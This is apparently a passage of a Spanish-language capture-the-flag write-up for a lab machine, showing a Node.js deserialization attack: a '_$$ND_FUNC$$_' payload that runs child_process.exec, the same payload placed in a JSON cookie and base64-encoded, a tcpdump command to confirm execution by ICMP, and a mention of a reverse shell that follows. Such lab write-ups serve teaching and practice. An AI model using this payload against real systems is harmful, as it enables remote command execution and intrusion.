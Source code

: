```javascript
_$$ND_FUNC$$_function()require{('child_process').exec('ping -c 1 IP', function(error, stdout, stderr){ console.log(stdout) });}()
```

```javascript
{"username":"Master Mind","country":"Pakistan","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ping -c 1 IP', function(error, stdout, stderr) { console.log(stdout) }); }()"}%3d%3d
```

Todo el objeto debe de codificarse en **base64** para evitar errores en el lado del backend.

```base64
eyJ1c2VybmFtZSI6Ik1hc3RlciBNaW5kIiwiY291bnRyeSI6IlBha2lzdGFuIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIC1jIDEgMTAuMTAuMTQuMTkyJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7IH0oKSJ9%3d%3d
```

<div style="text-align: center;">
		<img src="/assets/images/Celestial/poc1.jpg" alt="Celestial" width="1000" oncontextmenu="return false;" />
</div>
<br>

Para confirmar la vulnerabilidad, se escucha el tráfico ICMP entrante en la máquina atacante.

```bash
tcpdump -i tun0 icmp -n
```

Los resultados demuestran la vulnerabilidad a un **ataque de deserialización** que permite una ejecución remota de comandos **RCE**.

<div style="text-align: center;">
		<img src="/assets/images/Celestial/poc2.jpg" alt="Celestial" width="1000" oncontextmenu="return false;" />
</div>
<br>
Se configura una shell inversa para ganar acceso.
